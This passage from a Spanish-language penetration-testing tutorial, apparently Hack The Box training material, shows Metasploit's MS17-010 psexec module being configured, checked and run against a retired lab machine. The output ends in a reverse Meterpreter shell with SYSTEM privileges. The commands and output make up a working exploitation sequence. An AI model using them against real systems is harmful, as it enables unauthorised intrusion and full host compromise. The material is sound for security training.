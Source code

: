 ~~~
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
~~~

Una vez que tengamos configuradas ambas opciones, podemos comenzar la explotación. Sin embargo, antes de ejecutar el script, podemos ejecutar una verificación para asegurarnos de que el servidor sea vulnerable: 

~~~

msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

~~~

Como podemos ver, el servidor es realmente vulnerable. Tenga en cuenta que no todos los exploits en `Metasploit Framework` admiten la función de verificación. Finalmente, podemos usar el comando `run` o `exploit` para ejecutar el exploit: 

~~~
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
~~~

Como podemos ver, pudimos obtener acceso de administrador al Box y usamos el comando de `shell` para colocarnos en un shell interactivo. Estos son ejemplos básicos del uso de Metasploit para explotar una vulnerabilidad en un servidor remoto. Hay muchas Box retiradas en la plataforma Hack The Box que son excelentes para practicar Metasploit. Algunos de estos incluyen, pero no se limitan a: 
